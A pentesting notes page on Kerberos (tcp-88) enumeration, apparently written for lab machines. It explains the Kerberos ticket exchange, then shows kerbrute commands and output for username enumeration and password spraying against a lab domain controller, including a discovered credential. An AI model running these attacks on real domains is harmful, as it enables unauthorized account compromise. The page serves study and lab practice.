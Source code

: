 ```yaml
---
description: >-
  Enumerate Kerberos Service.
title: KERBEROS (tcp-88)                 # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [01 Enumeration, KERBEROS (tcp-88)]                     # Change Templates to Writeup
tags: [kerberos enumeration]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

# Explanation
The Kerberos authentication protocol used by Microsoft is adopted from the Kerberos version 5 authentication protocol created by MIT and has been used as Microsoft's primary authentication mechanism since Windows Server 2003. While NTLM authentication works through a principle of challenge and response, Windows-based Kerberos authentication uses a ticket system.

At a high level, Kerberos client authentication to a service in Active Directory involves the use of a domain controller in the role of a key distribution center, or KDC. This process is shown below.

![Description](/assets/img/Pasted image 20221113212909.png)

For example, when a user logs in to their workstation, a request is sent to the domain controller, which has the role of KDC and also maintains the Authentication Server service. This _Authentication Server Request_ (or _AS_REQ_) contains a time stamp that is encrypted using a hash derived from the password of the user and the username.

When the domain controller receives the request, it looks up the password hash associated with the specific user and attempts to decrypt the time stamp. If the decryption process is successful and the time stamp is not a duplicate (a potential replay attack), the authentication is considered successful.

The domain controller replies to the client with an _Authentication Server Reply_ (_AS_REP_) that contains a session key (since Kerberos is stateless) and a _Ticket Granting Ticket_ (TGT). The session key is encrypted using the user's password hash, and may be decrypted by the client and reused. The TGT contains information regarding the user, including group memberships, the domain, a time stamp, the IP address of the client, and the session key.

In order to avoid tampering, the Ticket Granting Ticket is encrypted by a secret key known only to the KDC and can not be decrypted by the client. Once the client has received the session key and the TGT, the KDC considers the client authentication complete. By default, the TGT will be valid for 10 hours, after which a renewal occurs. This renewal does not require the user to re-enter the password.

When the user wishes to access resources of the domain, such as a network share, an Exchange mailbox, or some other application with a registered service principal name, it must again contact the KDC.

This time, the client constructs a _Ticket Granting Service Request_ (or _TGS_REQ_) packet that consists of the current user and a timestamp (encrypted using the session key), the SPN of the resource, and the encrypted TGT.

Next, the ticket granting service on the KDC receives the TGS_REQ, and if the SPN exists in the domain, the TGT is decrypted using the secret key known only to the KDC. The session key is then extracted from the TGT and used to decrypt the username and timestamp of the request. As this point the KDC performs several checks:

1.  The TGT must have a valid timestamp (no replay detected and the request has not expired).
2.  The username from the TGS_REQ has to match the username from the TGT.
3.  The client IP address needs to coincide with the TGT IP address.

If this verification process succeeds, the ticket granting service responds to the client with a _Ticket Granting Server Reply_ or _TGS_REP_. This packet contains three parts:

1.  The SPN to which access has been granted.
2.  A session key to be used between the client and the SPN.
3.  A _service ticket_ containing the username and group memberships along with the newly-created session key.

The first two parts (SPN and session key) are encrypted using the session key associated with the creation of the TGT and the _service ticket_ is encrypted using the password hash of the service account registered with the SPN in question.

Once the authentication process by the KDC is complete and the client has both a session key and a service ticket, the service authentication begins.

First, the client sends to the application server an _application request_ or _AP_REQ_ , which includes the username and a timestamp encrypted with the session key associated with the service ticket along with the service ticket itself.

The application server decrypts the service ticket using the service account password hash and extracts the username and the session key. It then uses the latter to decrypt the username from the _AP_REQ_. If the _AP_REQ_ username matches the one decrypted from the service ticket, the request is accepted. Before access is granted, the service inspects the supplied group memberships in the service ticket and assigns appropriate permissions to the user, after which the user may access the requested service.

This protocol may seem complicated and perhaps even convoluted, but it was designed to mitigate various network attacks and prevent the use of fake credentials.

### Kerbrute

> Tool to validate valid users on the domain, remember that "users" is a dictionary and it must be created even if only one user needs to be tested
{: .prompt-tip }
```bash
kerbrute userenum -d scrm.local --dc 10.10.11.168 /usr/share/seclists/Kerberos/A-ZSurnames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/21/23 - Ronnie Flathers @ropnop

2023/01/21 22:44:31 >  Using KDC(s):
2023/01/21 22:44:31 >   10.10.11.168:88

2023/01/21 22:44:31 >  [+] VALID USERNAME:       ASMITH@scrm.local
2023/01/21 22:45:06 >  [+] VALID USERNAME:       JHALL@scrm.local
2023/01/21 22:45:11 >  [+] VALID USERNAME:       KSIMPSON@scrm.local
2023/01/21 22:45:13 >  [+] VALID USERNAME:       KHICKS@scrm.local
2023/01/21 22:45:44 >  [+] VALID USERNAME:       SJENKINS@scrm.local
2023/01/21 22:46:15 >  Done! Tested 13000 usernames (5 valid) in 104.092 seconds
```
Example:
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:kerbrute)
[Tentacle](https://shuciran.github.io/posts/Tentacle/#fnref:kerbrute)

### Password Spraying
```bash
kerbrute bruteuser --dc 10.10.11.168 -d scrm.local validUsers ksimpson

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/21/23 - Ronnie Flathers @ropnop

2023/01/21 23:30:54 >  Using KDC(s):
2023/01/21 23:30:54 >   10.10.11.168:88

2023/01/21 23:30:55 >  [+] VALID LOGIN:  ksimpson@scrm.local:ksimpson
2023/01/21 23:30:55 >  Done! Tested 6 logins (1 successes) in 0.494 seconds
```

Useful resource to get a dictionary with possible users on a domain (test with dot and without it):
[kerberos enum userlists](https://github.com/attackdebris/kerberos_enum_userlists)

#Note If users are found this tool will execute an [[ASREPRoast Attack]]



